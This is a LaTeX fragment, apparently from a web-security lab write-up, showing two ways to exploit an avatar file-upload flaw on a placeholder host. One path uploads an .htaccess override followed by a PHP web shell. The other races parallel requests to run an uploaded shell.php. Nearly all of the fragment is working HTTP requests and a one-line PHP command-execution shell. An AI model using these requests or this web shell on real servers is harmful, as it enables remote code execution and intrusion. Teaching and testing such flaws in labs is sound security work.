 \documentclass[11pt]{article}
\begin{document}
\subsection{Exploitation Path B: Configuration File Override}

Step 1: Upload \texttt{.htaccess}:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .rce
------WebKitFormBoundary--
\end{lstlisting}

Step 2: Upload payload with new extension:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.rce"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}

Step 3: Execute:
\begin{lstlisting}[language=http]
GET /files/avatars/shell.rce?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}

\subsection{Exploitation Path C: Race Condition}

\begin{lstlisting}[language=http]
# Upload request (sent once)
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}

\begin{lstlisting}[language=http]
# Repeated requests in parallel (Turbo Intruder)
GET /files/avatars/shell.php?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}
\end{document}
